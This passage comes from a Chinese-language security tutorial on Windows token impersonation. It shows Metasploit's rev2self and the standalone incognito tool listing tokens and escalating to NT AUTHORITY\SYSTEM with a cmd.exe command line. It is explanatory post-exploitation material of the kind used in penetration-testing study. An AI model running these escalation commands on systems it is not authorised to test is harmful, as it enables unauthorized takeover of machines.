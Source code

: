 **注：**

需要加引号和双斜杠，`"NT AUTHORITY\\SYSTEM"`

执行`rev2self`返回之前token，为`WIN-R7MM90ERBMD\a`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-30/2-4.png)

通过以上演示，成功通过token窃取实现权限切换


## 0x04 Windows平台下的incognito
---

Metasploit中的incognito，是从windows平台下的incognito移植过来的，下面介绍一下windows平台下的incognito

**下载地址：**

https://labs.mwrinfosecurity.com/assets/BlogFiles/incognito2.zip

**参考手册：**

http://labs.mwrinfosecurity.com/assets/142/mwri_security-implications-of-windows-access-tokens_2008-04-14.pdf

常见用法如下：

列举token：`incognito.exe list_tokens -u`

复制token：`incognito.exe execute [options] <token> <command>`

### 实际测试

列举token：

```
incognito.exe list_tokens -u
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-30/3-1.png)

提权至system：

```
incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-30/3-2.png)

降权至当前用户：

```
incognito.exe execute -c "WIN-R7MM90ERBMD\a" cmd.exe
```
